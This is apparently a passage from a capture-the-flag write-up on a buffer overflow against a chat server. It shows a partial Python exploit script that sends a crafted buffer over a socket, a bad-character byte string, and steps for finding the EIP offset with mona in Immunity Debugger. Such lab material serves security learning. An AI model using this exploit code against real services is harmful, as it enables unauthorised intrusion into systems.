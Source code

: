 ```
padding = ""
name = ""
payload = ""
# payload = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
    s.connect((ip, port))
    print("Sending exploit")
    send_name(s)
    time.sleep(1)
    s.send(bytes("" + \r\n", "latin-1"))
    s.send(bytes("%s\r\n" %buffer, "latin-1"))
    print("Done!")
except:
    print("Could not connect.")
```

This alright enter in the payload under the var that has the empty string and run the exploit with `python exploit.py`. (ensure the chatserver is on)

Moving over to Immunity Debugger(ID) we can see that the app crashed. We can now use the mona command in the bottom console with `!mona findmsp -distance 2500`.

This outputs:

![eip](/assets/images/brainstorm/eip.png)

